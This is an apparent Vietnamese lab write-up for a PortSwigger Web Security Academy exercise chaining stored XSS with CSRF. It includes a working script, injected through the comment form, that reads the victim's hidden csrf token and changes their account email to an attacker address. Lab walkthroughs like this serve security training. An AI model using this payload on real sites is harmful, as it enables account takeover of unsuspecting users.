


#### một bài khá hay về XSS và CSRF, mình cũng đã mất khá nhiều thời gian để solved bài này



login với tài khoản được cung cấp rồi tiến hành dùng thử feature của ứng dụng, mình quan sát burp suite thấy nó 1 endpoint như trên

phần data được truyền vào là do mình nhập `email=xxx@gmail.com`, còn phần `csrf` bản thân nó bị dev hidden trong source code nên ở phần giao diện chúng ta sẽ không thấy được nhé

Giải thích:
khi người dùng muốn thay đổi email thì sẽ phải cung cấp cho endpoint trên cả email muốn thay đổi đi kèm với `csrf` ( cái này sẽ được tạo ra khi login, nó giống như 1 cái token để xác định ae là ai vậy)

mình sẽ không đi chứng minh web này bị store XSS nữa nhé, ae nên tự chứng minh, và mình sẽ đi vào exploit luôn

Câu hỏi mình đặt ra:
` sẽ ra sao nếu mình lấy được csrf của mỗi người dùng khi login vào và thay đổi email của người dùng đó?`

để làm gì à =)), thì khi mình có email mình có thể exploit chain mà, lo gì không có thứ để dùng :v 

vì ứng dụng tồn tại Store XSS nên mình sẽ embedded mã khai thác vào và chờ user động đến nó thôi là thành công thay đổi email của họ rồi

đoạn code mình viết để khai thác như sau:
```
<script>
window.addEventListener('DOMContentLoaded',function(){
    var csrf = document.getElementsByName('csrf')[0].value
    var formdata = new FormData();
    formdata.append('email','khiemhacked@gmail.com');
    formdata.append('csrf',csrf)
    fetch('https://0a9c00e10310e313855d4a2000190033.web-security-academy.net/my-account/change-email',{
        method :'POST',
        mode :'no-cors',
        body: formdata
    });
});
</script>
```
thật sự dễ hiểu lắm nên ae hãy cố gắng đọc, khó quá thì lên chatGPT nó nhắc bài cho =)))

à, truyền cái payload này vô form comment nhé, vì nó bị store XSS

trình mình còn khá non nên bài này ngồi ngẫm mất gần tiếng mới ngộ ra haizzz

`soong1002gavl`